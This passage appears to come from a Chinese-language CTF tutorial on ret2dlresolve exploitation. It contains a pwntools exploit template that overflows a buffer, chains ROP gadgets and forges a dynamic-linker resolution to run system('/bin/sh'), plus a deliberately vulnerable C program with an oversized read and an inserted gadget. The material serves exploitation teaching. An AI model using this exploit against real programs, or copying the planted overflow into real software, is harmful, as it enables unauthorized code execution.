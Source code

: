 ```python

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# 准备好如下值
offset = 0x108  # 溢出到返回值的偏移
read_length = 0x180  # 表示漏洞程序的read允许读的长度
start_resolve = 0x401020 # 所有函数的plt表的push和jmp操作的地址，如 push cs:qword_404008 jmp cs:qword_404010
read_plt = elf.plt['read']
pop_rdi = 0x4011d3
pop_rsi_r15 = 0x4011d1
pop_rdx = 0

# 下面是模板部分，注意有能控制几个参数的gadgets就可以执行几个参数，例如没有rdx的gadget，只能执行带两个参数的函数
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

payload = b'a'*offset + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(dlresolve.data_addr) + p64(0) + p64(read_plt)
payload += p64(pop_rdi) + p64(dlresolve.real_args[0]) 
payload += p64(start_resolve) + p64(dlresolve.reloc_index)

sh.send(payload)
sh.send(dlresolve.payload)

sh.interactive()
```

我们仍然是将`dlresolve.payload`读到某个可写的位置，随后将要执行的函数的参数通过`gadgets`存放到寄存器，最后模拟调用`plt`绑定函数，此时保证栈上有`reloc_index`即可。

# NO RELRO

在`NO RELRO`的情况下，情况会变得比较简单。此外，笔者曾经遇到过一道堆题为`NO RELRO`，拿不到`libc`的任何信息，最后通过`dlresolve`来打通的题目。因此，`NO RELRO`的情况仍然值得学习。而`FULL RELRO`的情况下，`ret2dlresolve`这种方法就不太实用，师傅们遇到的时候尽量选择其他的方法来做。

编译如下程序，笔者这里以`64`位为例子，并且手动添加了一个`pop rdx; ret`的`gadgets`，来方便我们演示。

```c
#include <stdio.h>

asm("pop rdx; ret");

int main(){
    char content[0x100];
    read(0, content, 0x300);
    
    return 0;
}
```
